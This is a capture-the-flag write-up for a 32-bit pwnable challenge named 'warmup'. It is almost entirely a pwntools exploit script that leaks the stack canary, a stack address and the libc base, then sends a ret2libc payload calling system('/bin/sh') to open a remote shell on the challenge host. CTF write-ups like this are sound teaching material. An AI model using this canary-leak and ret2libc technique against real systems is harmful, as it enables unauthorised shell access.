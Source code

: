 # **warmup**

#### tag : pwnable

-----------------------------------------------

#### Description

>Let's get you warmed up
>
>by r00t3r
>
>nc 13.233.66.116 7000

-----------------------------------------------

#### Solution

Oops, host give us wrong libc for 64bit not 32bit.

```python
from pwn import *

context.log_level = 'debug'
r = remote('13.233.66.116', 7000)

rr = lambda x: r.recvuntil(str(x))
ss = lambda x: r.sendline(str(x))

binary = ELF('./pwnable')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
libc_main_offset = libc.symbols['__libc_start_main']
libc_system_offset = libc.symbols['system']
libc_binsh_offset = next(libc.search('/bin/sh\x00'))

# leak canary
p = 'a' * (0x20+1)
ss(p)
canary = u32('\x00' + rr('\n')[33:36])

# leak stack address
p = 'a' * (0x2c)
ss(p)
stack = u32(rr('\n')[0x2c:0x30])

# leak libc base
p = 'a' * (0x50)
ss(p)
libc_main = u32(rr('\n')[len(p):len(p)+4])
libc_base = libc_main - (libc_main_offset + 247)
libc_system = libc_base + libc_system_offset
libc_binsh = libc_base + libc_binsh_offset

# exploit
p = 'break'
p += 'a' * (0x20-5)
p += p32(canary)
p += 'a' * 0x8
p += p32(stack)
p += 'a' * (80-len(p))
p += p32(libc_system)
p += 'a' * 4
p += p32(libc_binsh)
ss(p)
r.interactive()
```
